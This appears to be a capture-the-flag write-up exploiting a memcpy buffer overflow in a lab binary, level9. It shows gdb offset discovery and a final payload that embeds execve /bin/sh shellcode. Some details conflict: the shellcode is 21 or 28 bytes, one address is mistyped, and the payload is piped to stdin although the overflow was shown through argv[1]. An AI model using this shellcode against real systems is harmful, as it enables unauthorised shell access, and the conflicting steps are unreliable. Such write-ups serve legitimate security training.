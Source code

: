 We started by running the executable and found that it currently does nothing significant.
Analyzing it with `gdb`, we identified five interesting functions:
```
...
N::N(int)
N::setAnnotation(char*)
N::operator+(N&)
N::operator-(N&)
main
...
```
The main function is written in C/C++, and there are no direct calls to `/bin/sh`, indicating that we will need to use shellcode to exploit this program.

The `setAnnotation()` function uses `memcpy()` on `argv[1]`, making it vulnerable to a buffer overflow. We need to determine the offset at which the buffer overflows.

We determine the offset with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441       1094083649
(gdb)
```
The offset of `eax` start at 108.

We selected a 21-byte shellcode from: https://shell-storm.org/shellcode/files/shellcode-752.html

To exploit the buffer overflow, we must find the start address of our buffer and replace the value of `esp+0x10 `with it, ensuring that the call to `edx` will execute our shellcode.
```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141
```

The value of `[esp+0x10]` will be replaced with `0x804a00c`.
Because we need to dereference again, this address will points to the beginning of our shellcode : `0x804a00x + 4 = 0x804a010`.

Our payload structure is:
-   Shell Address: 4 bytes
-   Shellcode: 28 bytes
-   Padding: 76 bytes
-   Buffer Address: 4 bytes

Final exploit payload::
```
python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"' | ./level9
```
